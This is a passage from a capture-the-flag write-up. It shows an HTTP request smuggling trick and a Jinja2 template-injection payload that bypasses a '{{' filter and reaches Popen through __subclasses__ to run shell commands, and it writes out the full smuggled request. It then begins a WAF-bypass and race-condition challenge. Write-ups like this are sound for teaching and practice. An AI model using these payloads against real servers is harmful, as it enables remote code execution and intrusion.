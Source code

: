 The request worked. However, everytime you change the payload the `Content-Length` here needs to be very correctly specified. If this is wrong, this would result in error. The first content length header
of `68` starts from the letter `xxx..` and ends where the next request starts. While the second header of length `35` starts at the beginning of body which is at `GET` at the moment 
and it ends at the `\r\n\r\n`. 

The left up part is SSTI. Reading the filters, we can't use `{{` and `}}`. However, payloads like `{%%}` can still be used. The `{% with %}` tag can be used to get RCE:
```html
{% with a={} %}{% endwith %}
```

Initially i called `import_string` from `__globals__` but that doesn't work for some reason. So, lets go the old way of finding the `Popen` function first. Get the classes:
```python
{% with a="".__class__.__mro__[1].__subclasses__() %}{% print(a) %}{% endwith %}
```

This would result in a large output. Clean the output, store the list properly and the index of the `Popen` function. Once, you get the index, payload becomes simple:
```python
{% with a="".__class__.__mro__[1].__subclasses__()[213]('cat /flag*',shell=True,stdout=-1).communicate() %}{% print(a) %}{% endwith %}
```

With the final request would become:
```
GET / HTTP/1.1
Host: localhost:80
Content-Length: 261
Sec-Websocket-Key1: x

xxxxxxxxPOST /admin HTTP/1.1
Host: localhost
Content-Length: 177
Content-Type: application/x-www-form-urlencoded

input={% with a="".__class__.__mro__[1].__subclasses__()[213]('cat /flag*',shell=True,stdout=-1).communicate()
 %}{% print(a) %}{% endwith %}GET / HTTP/1.1
Host: localhost


```

## wtwaf | Hard

> Code Analysis & Race Condition. I wasn't able to solve this challenge within due time. And kudos to its author and team Sekai for all the help in solving this later on.

Reading the code, we had to exploit 3 things: 

* Bypass the `req.originalUrl.toLowerCase().startsWith("/admin")` statement.
* Bypass the WAF: `(item) => item && JSON.stringify(item).includes("flag")`
* Race conditon in `/admin/debug` call.
